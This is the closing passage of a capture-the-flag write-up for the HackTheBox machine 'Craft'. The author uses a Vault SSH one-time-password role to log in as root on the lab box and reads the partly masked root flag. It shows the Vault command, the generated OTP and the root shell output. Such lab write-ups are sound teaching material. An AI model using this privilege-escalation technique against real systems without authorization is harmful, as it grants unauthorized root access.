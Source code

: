The commands looked pretty similar. Following the `Automate it` section, all we have to do is create a new OTP and `ssh` into the box.

{% highlight bash %}
vault ssh -role root_otp -mode otp root@127.0.0.1
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,                                         
Vault can automatically perform this step for you.                                                                 
OTP for the session is: f80f58e4-6ec7-dcdf-b491-f2ee66a89260


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Password: 
{% endhighlight %}

The password is simply just the OTP generated for the session, which is `f80f58e4-6ec7-dcdf-b491-f2ee66a89260`. 

{% highlight bash %}
Password: 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 27 04:53:14 2019
root@craft:~# cat root.txt
831dXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}


## Rooted ! Thank you for reading and look forward for more writeups and articles !
